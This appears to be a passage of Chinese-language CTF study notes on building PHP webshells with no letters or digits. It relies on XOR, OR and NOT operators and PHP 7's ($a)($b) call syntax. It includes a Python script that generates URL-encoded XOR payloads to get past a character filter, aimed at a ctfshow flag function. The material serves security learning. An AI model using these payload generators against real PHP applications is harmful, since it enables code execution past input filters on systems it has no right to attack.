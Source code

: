 ## 位运算

[https://www.php.net/manual/zh/language.operators.php](https://www.php.net/manual/zh/language.operators.php)

通过 `& | ^ ~` 来构造无字母数字的 webshell

原理是 PHP 7 支持以 `($a)($b)` 的形式调用函数并传参

[https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

python 脚本

```python
import re

preg = '[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\-]+'

def convertToURL(s):
    if s < 16:
        return '%0' + str(hex(s).replace('0x', ''))
    else:
        return '%' + str(hex(s).replace('0x', ''))

def generateDicts():
    dicts = {}
    for i in range(256):
        for j in range(256):
            if not re.match(preg, chr(i), re.I) and not re.match(preg, chr(j), re.I):
                k = i ^ j
                if k in range(32, 127):
                    if not k in dicts.keys():
                        dicts[chr(k)] = [convertToURL(i), convertToURL(j)]
    return dicts

def generatePayload(dicts, payload):
    s1 = ''
    s2 = ''
    for s in payload:
        s1 += dicts[s][0]
        s2 += dicts[s][1]
    return f'("{s1}"^"{s2}")'

dicts = generateDicts()
a = generatePayload(dicts, r'get_ctfshow_fl0g')
print(a)
```

运算方式可以自己改

按位取反 `~` 的话直接在 PHP 里面写就行了

## 三目运算符
